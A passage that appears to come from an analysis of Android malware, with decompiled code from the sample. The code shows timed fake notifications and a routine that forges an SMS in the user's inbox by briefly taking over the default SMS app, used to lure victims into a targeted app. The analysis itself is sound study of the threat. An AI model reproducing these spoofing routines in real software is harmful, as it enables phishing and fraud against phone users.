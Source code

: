 ```cs
                    notificationManager0.notify(v, notification$Builder0.build());
                }
            }
            else {
                Notification notification0 = new Notification.Builder(this).setContentTitle(s).setContentText(s1).setAutoCancel(true).setSmallIcon(v1).setDefaults(2).setPriority(2).setLargeIcon(BitmapFactory.decodeResource(this.getResources(), v1)).build();
                if(notificationManager0 != null) {
                    notificationManager0.notify(v, notification0);
                }
            }

            try {
                TimeUnit.MILLISECONDS.sleep(30000L);
            }
            catch(InterruptedException unused_ex) {
                return;
            }

            if(notificationManager0 != null) {
                notificationManager0.cancelAll();
                return;
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }

```

Another trick is to push SMSs to the user contains some text to lure the user to open the targeted app that the malware wants. This mind-blowing and scary at the same time. 

```cs
private void WriteSms(String s, String s1) {
        ContentValues contentValues0 = new ContentValues();
        contentValues0.put("address", s1);
        contentValues0.put("date", Long.valueOf(System.currentTimeMillis()));
        contentValues0.put("body", s);
        Boolean boolean0 = Boolean.valueOf(false);
        contentValues0.put("read", boolean0);
        contentValues0.put("seen", boolean0);
        this.getContentResolver().insert(Telephony.Sms.Inbox.CONTENT_URI, contentValues0);
        Intent intent0 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
        intent0.putExtra("package", this.store.get(this, "SMSDefaultApp"));
        this.startActivityForResult(intent0, 0x14B06);
    }

    @Override  // android.app.Activity
    protected void onActivityResult(int v, int v1, Intent intent0) {
        if(v == 0x14B05 && v1 == -1 && (this.Tools.isDefaultSMSApp(this))) {
            this.WriteSms(this.Body, this.Sender);
        }

        if(v == 0x14B06 && v1 == -1 && !this.Tools.isDefaultSMSApp(this)) {
            try {
                ServiceAccessibility.autoClickForSmsManager = false;
                this.Tools.Log(this, "Fake SMS has been sent successfully!", Boolean.valueOf(true));
                Handler handler0 = new Handler();
                com.truly.suggest.ActivityGenerateFakeSMS.1 activityGenerateFakeSMS$10 = new Runnable() {
                    @Override
```